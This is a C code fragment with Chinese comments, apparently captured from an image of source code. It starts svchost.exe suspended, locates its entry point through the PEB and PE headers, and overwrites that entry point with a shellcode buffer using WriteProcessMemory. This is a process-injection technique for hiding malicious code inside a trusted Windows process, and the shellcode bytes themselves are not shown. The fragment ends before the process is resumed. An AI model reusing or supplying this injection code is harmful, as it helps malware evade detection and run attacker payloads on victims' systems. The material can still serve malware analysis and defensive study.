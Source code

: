 ```c
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };

    // 因为需要一个挂起状态的进程，所以需要Create，而不能Open，而且需要执行入口点，所以只能创建
    if (!CreateProcessA(NULL, (LPSTR)"C:\\Windows\\System32\\svchost.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        printf("CreateProcessA 失败，错误码 %lu\n", GetLastError());
        return 1;
    }

    NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
    //find base addr by peb
    PROCESS_BASIC_INFORMATION pbi;
    ULONG ReturnLength;
    NTSTATUS status = NtQueryInformationProcess(pi.hProcess, 0, &pbi, sizeof(pbi), &ReturnLength);
    if (status != 0)
    {
        printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
        return 1;
    }
    // peb offset
    DWORD_PTR pef_offset = (DWORD_PTR)pbi.PebBaseAddress + 0x10;

    LPVOID imagebase_addr = 0;
    if (!ReadProcessMemory(pi.hProcess, (LPVOID)pef_offset, &imagebase_addr, sizeof(LPVOID), NULL))
    {
        printf("读取目标进程的Peb结构体失败，错误码 %lu\n", GetLastError());
        return 1;
    }
    // MZ address
    printf("imagebase_addr: 0x%p", imagebase_addr);
    //（EntryPoint）
        // dos header
    IMAGE_DOS_HEADER dosHeader = { 0 };
    if (!ReadProcessMemory(pi.hProcess, imagebase_addr, &dosHeader, sizeof(dosHeader), NULL))
    {
        printf("读取目标进程的DOS头失败，错误码 %lu\n", GetLastError());
        return 1;
    }

        // nt header
    // 这里需要定义一个结构体，用PIMAGE_NT_HEADERS定义的话默认定义了一个类型的指针但是并没有开辟内存空间，所以会报错
    IMAGE_NT_HEADERS ntHeader = { 0 };
    DWORD nt_offset = dosHeader.e_lfanew;
    // 定位到nt头的位置
    if (!ReadProcessMemory(pi.hProcess, (LPVOID)((DWORD_PTR)imagebase_addr + nt_offset), &ntHeader, sizeof(ntHeader), NULL))
    {
        printf("读取目标进程的NT头失败，错误码 %lu\n", GetLastError());
        return 1;
    }
    // 找到可选头里的入口偏移，然后算EntryPoint的真实地址
    LPVOID entry_point = (LPVOID)(ntHeader.OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)imagebase_addr);

    // 将入口点的代码覆盖掉
    if (!WriteProcessMemory(pi.hProcess, entry_point, shellcode64, sizeof(shellcode64), NULL))
    {
        printf("修改进程入口点代码失败，错误码 %lu\n", GetLastError());
    }

```